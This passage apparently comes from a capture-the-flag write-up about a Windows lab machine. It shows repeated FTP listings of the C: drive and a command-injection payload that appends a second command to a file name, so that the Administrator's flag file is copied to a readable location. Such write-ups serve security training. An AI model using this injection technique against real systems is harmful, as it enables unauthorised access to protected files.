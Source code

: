 ```
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
04-28-19  05:11PM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-25-19  10:56PM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
04-28-19  06:38PM                  538 sdb_test.txt
04-28-19  05:11PM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-25-19  10:56PM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
```

It took a few refreshes but it seemed to work. I should be able to redirect `root.txt` to `sdb.txt` because on machines like this *where* the flag is usually isn't a mystery, its how to get it. It should be on the Administrator's desktop:

```test.txt;more c:\Users\Administrator\Desktop\root.txt > c:\sdb.txt```  

```ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
04-28-19  06:38PM                  538 output.txt
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
04-28-19  06:51PM                   74 sdb.txt
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
```